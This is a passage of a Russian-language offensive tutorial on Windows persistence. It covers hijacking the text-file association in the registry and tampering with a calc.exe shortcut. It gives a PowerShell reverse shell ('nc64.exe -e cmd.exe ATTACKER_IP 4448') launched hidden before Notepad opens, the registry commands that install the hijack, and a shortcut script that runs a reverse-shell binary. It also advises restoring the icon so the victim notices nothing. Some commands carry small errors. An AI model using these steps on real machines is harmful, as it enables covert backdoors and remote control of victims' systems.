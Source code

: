 Обратите внимание, что мы можем использовать этот метод сохранения для файлов любого типа:
https://imgur.com/a/pjWygGP
Затем мы можем найти подраздел для соответствующего ProgID (также в разделе `HKLM\Software\Classes\`), в данном случае txtfile, где мы найдем ссылку на программу, отвечающую за обработку текстовых файлов. 

Большинство записей `ProgID` будут иметь подраздел в разделе `shell\open\command`, где указана команда по умолчанию, которая будет выполняться для файлов с таким расширением, например:
https://imgur.com/a/pzyhirE

В этом случае при попытке открыть текстовый файл система выполнит команду `%SystemRoot%\system32\NOTEPAD.EXE %1`, где `%1` - это имя открытого файла. 
Если мы хотим взломать это расширение, мы могли бы заменить команду скриптом, который запускает бэкдор и затем открывает файл как обычно.

### Как это работает?(POC)
скрипт backdoor.ps, который запустит нашу reverse shell payload, а также откроет нужный файл. Cкрипт powershell будет выглядеть следующим образом:

    Start-Process -NoNewWindow “c:\tools\nc64.exe” “-e cmd.exe ATTACKER_IP 4448” 
    C:\Windows\system32\NOTEPAD.EXE $args[0]

Обратите внимание, что в Powershell мы должны передать `$args[0]` в notepad, так как он будет содержать имя файла, который нужно открыть, как указано через `%1` в приведенном выше значении реестра.

    reg add HKLM\Software\Classes\textfile\shell\open\command /v (Default) /t REG_SZ /d “powershell -windowstylehidden C:\windows\backdoor.ps1 $1” /f
    New-ItemPropertyValue -Path HKLM:\Software\Classes\textfile\shell\open -Name (Default) -Value “powershell -windowstylehidden C:\windows\backdoor.ps1 $1” -Type REG_SZ

https://imgur.com/a/zjcVe9L

## 5. Using ShortCut Modification
Если мы хотим, чтобы Persistence был через визуалку с помощью ярлыка Windows, то это было бы лучшим способом. 
Здесь мы изменяем сам файл ярлыка. 
Вместо того, чтобы указывать непосредственно на ожидаемый исполняемый файл, мы можем изменить его, указав на вредоносный скрипт, который запустит бэкдор, а затем запустит обычную программу в обычном режиме. 
Давайте рассмотрим пример calc.exe ярлыка для POC. Если мы щелкнем по нему правой кнопкой мыши и перейдем в свойства, мы увидим, куда он указывает:

https://imgur.com/a/bpGl4VD

Теперь, что, если мы изменим его на что-то другое? Да, мы можем изменить его, запустить нашу payload , а также открыть calc

### Как это работает?(POC)
    Start-Process -NoNewWindow “c:\Windows\reversehll.exe”
    C:\Windows\System32\calc.exe

Обратите внимание, что при этом значок ярлыка может автоматически изменяться. 
Обязательно верните значок к исходному исполняемому файлу, чтобы пользователь не заметил видимых изменений.
